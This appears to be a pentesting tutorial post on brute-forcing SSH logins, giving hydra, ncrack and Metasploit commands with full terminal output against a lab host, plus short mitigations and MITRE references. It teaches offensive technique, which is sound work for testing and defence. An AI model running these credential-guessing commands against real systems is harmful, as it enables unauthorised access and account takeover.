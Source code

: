 ```yaml
---
title: SSH Pentesting -> Bruteforce
date: 2022-06-03 05:49:33 +0800
categories: [Infrastructure Pentesting, SSH]
tags: [infrastructure, pentesting, services, ssh, bruteforce]     # TAG names should always be lowercase
---
```


# Bruteforce: *mitre -> T1110*
***Bruteforce*** Is a technigue that uses trial-and-error to guess login credentials.

# Tools

These are some of the tools that are used to bruteforce ssh credentials.

- hydra
- ncrack
- metasploit

## hydra

[Hydra](https://www.kali.org/tools/hydra/) is a parallelized login cracker which supports numerous protocols to attack. It is very fast and flexible, and new modules are easy to add.

Syntax
> `hydra -L [userfile] -P [password_file] ssh://[target_ip]`

**bruteforcing ssh protocol with hydra**
```bash
┌──(cyberkhalid㉿kali)-[~/pentest]
└─$ hydra -L user.txt -P pass.txt ssh://192.168.43.234
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-06-05 20:20:36
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 96 login tries (l:8/p:12), ~6 tries per task
[DATA] attacking ssh://192.168.43.234:22/
[22][ssh] host: 192.168.43.234   login: 'user1'   password: 'user1'
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 3 final worker threads did not complete until end.
[ERROR] 3 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-06-05 20:20:59	
```
## Ncrack

[Ncrack](https://www.kali.org/tools/ncrack/) Is a high-speed network authentication cracking tool. It was built to help companies secure their networks by proactively testing all their hosts and networking devices for poor passwords.

syntax 
> `ncrack -U [userfile] -P [password_file] ssh://[target]`

**bruteforcing ssh protocol with ncrack**
```bash
┌──(cyberkhalid㉿kali)-[~/pentest]
└─$ ncrack -U user.txt -P pass.txt ssh://192.168.43.234

Starting Ncrack 0.7 ( http://ncrack.org ) at 2022-06-05 20:29 EDT

Discovered credentials for ssh on 192.168.43.234 22/tcp:
192.168.43.234 22/tcp ssh: 'user1' 'user1'

Ncrack done: 1 service scanned in 21.01 seconds.
```

## Metasploit

[Metasploit](https://www.kali.org/tools/metasploit-framework/) Is an open source platform that supports vulnerability research, exploit development, and the creation of custom security tools.

**bruteforcing ssh protocol with metasploit**
```bash
msf6 auxiliary(scanner/ssh/ssh_login) > options

Module options (auxiliary/scanner/ssh/ssh_login):

   Name              Current Setting  Required  Description
   ----              ---------------  --------  -----------
   BLANK_PASSWORDS   false            no        Try blank passwords for all users
   BRUTEFORCE_SPEED  5                yes       How fast to bruteforce, from 0 to 5
   DB_ALL_CREDS      false            no        Try each user/password couple stored in the current database
   DB_ALL_PASS       false            no        Add all passwords in the current database to the list
   DB_ALL_USERS      false            no        Add all users in the current database to the list
   DB_SKIP_EXISTING  none             no        Skip existing credentials stored in the current database (Accepted: none, user, user&realm)
   PASSWORD                           no        A specific password to authenticate with
   PASS_FILE                          no        File containing passwords, one per line
   RHOSTS                             yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT             22               yes       The target port
   STOP_ON_SUCCESS   false            yes       Stop guessing when a credential works for a host
   THREADS           1                yes       The number of concurrent threads (max one per host)
   USERNAME                           no        A specific username to authenticate as
   USERPASS_FILE                      no        File containing users and passwords separated by space, one pair per line
   USER_AS_PASS      false            no        Try the username as the password for all users
   USER_FILE                          no        File containing usernames, one per line
   VERBOSE           false            yes       Whether to print output for all attempts

msf6 auxiliary(scanner/ssh/ssh_login) > set rhosts 192.168.43.234
rhost => 192.168.43.234
msf6 auxiliary(scanner/ssh/ssh_login) > set user_file /home/cyberkhalid/pentest/user.txt
user_file => /home/cyberkhalid/pentest/user.txt
msf6 auxiliary(scanner/ssh/ssh_login) > set pass_file /home/cyberkhalid/pentest/pass.txt
pass_file => /home/cyberkhalid/pentest/pass.txt
msf6 auxiliary(scanner/ssh/ssh_login) > exploit

[*] 192.168.43.234:22 - Starting bruteforce
[+] 192.168.43.234:22 - Success: 'user1:user1' 'uid=1000(user1) gid=1000(user1) groups=1000(user1),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),114(lpadmin),134(sambashare) Linux user1-VirtualBox 5.4.0-91-generic #102-Ubuntu SMP Fri Nov 5 16:31:28 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux '
[*] SSH session 2 opened (192.168.43.1:41713 -> 192.168.43.234:22) at 2022-06-05 20:40:02 -0400

[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
	
```
## Using private keys

**bruteforcing ssh protocol with metasploit using ssh-private keys**
```bash
msf6 auxiliary(scanner/ssh/ssh_login_pubkey) > options                                                                                                                
                                                                                                                                                                      
Module options (auxiliary/scanner/ssh/ssh_login_pubkey):                                                                                                              
                                                                                                                                                                      
   Name              Current Setting               Required  Description                                                                                              
   ----              ---------------               --------  -----------                                                                                              
   BRUTEFORCE_SPEED  5                             yes       How fast to bruteforce, from 0 to 5                                                                      
   DB_ALL_USERS      false                         no        Add all users in the current database to the list                                                        
   KEY_PASS                                        no        Passphrase for SSH private key(s)                                                                        
   KEY_PATH                                        no        Filename or directory of cleartext private keys. Filenames beginning with a dot, or ending in ".pub" wi  
                                                             ll be skipped. Duplicate private keys will be ignored.                                                   
   PRIVATE_KEY       /home/cyberkhalid/pentest/id  no        The string value of the private key that will be used. If you are using MSFConsole, this value should b  
                                                             e set as file:PRIVATE_KEY_PATH. OpenSSH, RSA, DSA, and ECDSA private keys are supported.                 
   RHOSTS            192.168.43.234                yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit             
   RPORT             22                            yes       The target port                                                                                          
   STOP_ON_SUCCESS   false                         yes       Stop guessing when a credential works for a host                                                         
   THREADS           1                             yes       The number of concurrent threads (max one per host)                                                      
   USERNAME          user1                         no        A specific username to authenticate as                                                                   
   USER_FILE                                       no        File containing usernames, one per line                                                                  
   VERBOSE           true                          yes       Whether to print output for all attempts                                                                 
                                                                                                                                                                                                                                                                                                 
msf6 auxiliary(scanner/ssh/ssh_login_pubkey) > set key_path /home/cyberkhalid/pentest/id                                                                              
key_path => /home/cyberkhalid/pentest/id                                                                                                                              
msf6 auxiliary(scanner/ssh/ssh_login_pubkey) > set key_pass Passsword@123                                                                                             
key_pass => Passsword@123                                                                                                                                                
msf6 auxiliary(scanner/ssh/ssh_login_pubkey) > exploit                                                                                                                
                                                                                                                                                                      
[*] 192.168.43.234:22 SSH - Testing Cleartext Keys                                                                                                                    
[*] 192.168.43.234:22 - Testing 1 key from /home/cyberkhalid/pentest/id                                                                                               
[+] 192.168.43.234:22 - Success: 'user1:-----BEGIN RSA PRIVATE KEY----- 
```
# Mitigations

- Enforce password policies.
- Set account lockout policies after a certain number of failed login attempts to prevent passwords from being guessed.
- Use multi-factor authentication.

# References

- [https://attack.mitre.org/techniques/T1110/](https://attack.mitre.org/techniques/T1110/)
- [https://www.kali.org/tools/hydra/](https://www.kali.org/tools/hydra/)
- [https://www.kali.org/tools/ncrack/](https://www.kali.org/tools/ncrack/)
- [https://www.kali.org/tools/metasploit-framework/](https://www.kali.org/tools/metasploit-framework/)
- [https://attack.mitre.org/mitigations/M1027/](https://attack.mitre.org/mitigations/M1027/)
- [https://attack.mitre.org/mitigations/M1032/](https://attack.mitre.org/mitigations/M1032/)
- [https://attack.mitre.org/mitigations/M1036/](https://attack.mitre.org/mitigations/M1036/)
